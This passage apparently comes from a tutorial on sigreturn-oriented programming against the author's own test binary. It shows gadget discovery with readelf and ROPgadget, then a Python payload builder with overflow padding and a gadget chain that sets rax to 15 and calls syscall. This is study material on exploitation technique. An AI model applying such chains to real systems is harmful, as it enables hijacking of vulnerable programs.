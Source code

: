 Look at how the stack looked like for a signal-handler. Its return-address was the ```__restore_rt``` function. So even here, we need to overwrite the ```vuln_func```'s return-address with ```__restore_rt``` function. But where is ```__restore_rt``` present? Traditionally, it is present in libc.so. The paper lists a variety of places and options where we can find ```__restore_rt```. I am running a x86_64 Linux box with kernel version 5.4.0. For this, I have only one option: **libc.so**. This is why I statically linked the binary. Some relevant libc.so code would be present in my binary. Let us see if ```__restore_rt``` is present.

```
srop$ readelf --syms ./code3 | grep restore
   400: 000000000045a2e0     0 FUNC    LOCAL  DEFAULT    6 __restore_rt
```

It is present. But what if it is not present? In a realistic scenario where the binary is large, you can find ROP gadgets to get the job done. All we need is the following: Register rax should have 15 in it and then a ```syscall```. Let us check if my binary has the necessary gadgets. I will be using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to get the list of gadgets.

```
srop$ ROPgadget --binary code3 > code3.rop.obj
```

The following is what I found:

1. To zeroize ```rax```: ```0x00000000004440c0 - xor rax, rax ; ret```
2. To increment ```rax```: ```0x0000000000474320 : add rax, 1 ; ret```. This can be used 15 times to load 15 into ```rax```.
3. Syscall: ```0x000000000040125c : syscall```

Alright, we have the necessary gadgets. Let me use these gadgets instead of the ```__restore_rt```.

```python3
def fake_frame():                                                               
                                                                                
    # Add the initial junk                                                      
    payload = b''                                                               
    payload += b'\x41' * 120                                                    
                                                                                
    # Let us first call the rt_sigreturn                                        
    # __restore_rt is generally not found in binaries.                          
    # Let us use Gadgets (ROP-style) and get it done.                           
    payload += struct.pack('<Q', 0x00000000004440c0)    # xor rax, rax; ret        
    payload += struct.pack('<Q', 0x0000000000474320)    # add rax, 1; ret          
    payload += struct.pack('<Q', 0x0000000000474320)    # add rax, 1; ret          
    payload += struct.pack('<Q', 0x0000000000474320)    # add rax, 1; ret          
    payload += struct.pack('<Q', 0x0000000000474320)    # add rax, 1; ret          
    payload += struct.pack('<Q', 0x0000000000474320)    # add rax, 1; ret          
    payload += struct.pack('<Q', 0x0000000000474320)    # add rax, 1; ret          
    payload += struct.pack('<Q', 0x0000000000474320)    # add rax, 1; ret          
    payload += struct.pack('<Q', 0x0000000000474320)    # add rax, 1; ret          
    payload += struct.pack('<Q', 0x0000000000474320)    # add rax, 1; ret          
    payload += struct.pack('<Q', 0x0000000000474320)    # add rax, 1; ret          
    payload += struct.pack('<Q', 0x0000000000474320)    # add rax, 1; ret          
    payload += struct.pack('<Q', 0x0000000000474320)    # add rax, 1; ret          
    payload += struct.pack('<Q', 0x0000000000474320)    # add rax, 1; ret          
    payload += struct.pack('<Q', 0x0000000000474320)    # add rax, 1; ret          
    payload += struct.pack('<Q', 0x0000000000474320)    # add rax, 1; ret          
    payload += struct.pack('<Q', 0x000000000040125c)    # syscall
```
